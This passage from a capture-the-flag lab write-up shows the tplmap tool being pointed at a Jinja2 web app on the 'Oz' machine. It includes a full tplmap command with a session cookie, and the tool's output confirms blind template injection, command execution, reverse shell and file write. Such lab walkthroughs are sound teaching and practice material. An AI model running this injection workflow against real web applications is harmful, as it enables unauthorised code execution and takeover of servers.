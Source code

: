 

    root@kali# /opt/tplmap/tplmap.py                     
    [+] Tplmap 0.5
        Automatic Server-Side Template Injection Detection and Exploitation Tool  

    Usage: python tplmap.py [options]

    tplmap.py: error: URL is required. Run with -h for help. 



#### Run Against Oz

I'll start by giving it the minimum parameters to get it going:

-   `-u` - the url to target
-   `-X POST` - the request type
-   `-d` - the data for the POST
-   `-H` - headers to include, in this case, the cookie to be logged in

On doing that, it finds the engine, Jinja2 (same as I found above), and
says it can do blind shell commands and file writes. For some reason it
thinks it can't do file reads, which I proved I could do above, so it's
not perfect.



    root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI
    6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w"
    [+] Tplmap 0.5
        Automatic Server-Side Template Injection Detection and Exploitation Tool

    [+] Testing if POST parameter 'name' is injectable
    [+] Smarty plugin is testing rendering with tag '*'
    [+] Smarty plugin is testing blind injection
    [+] Mako plugin is testing rendering with tag '${*}'
    [+] Mako plugin is testing blind injection
    [+] Python plugin is testing rendering with tag 'str(*)'
    [+] Python plugin is testing blind injection
    [+] Tornado plugin is testing rendering with tag '{{*}}'
    [+] Tornado plugin is testing blind injection
    [+] Jinja2 plugin is testing rendering with tag '{{*}}'
    [+] Jinja2 plugin is testing blind injection
    [+] Jinja2 plugin has confirmed blind injection
    [+] Tplmap identified the following injection point:

      POST parameter: name
      Engine: Jinja2
      Injection: *
      Context: text
      OS: undetected
      Technique: blind
      Capabilities:

       Shell command execution: ok (blind)
       Bind and reverse shell: ok
       File write: ok (blind)
       File read: no
       Code evaluation: ok, python code (blind)
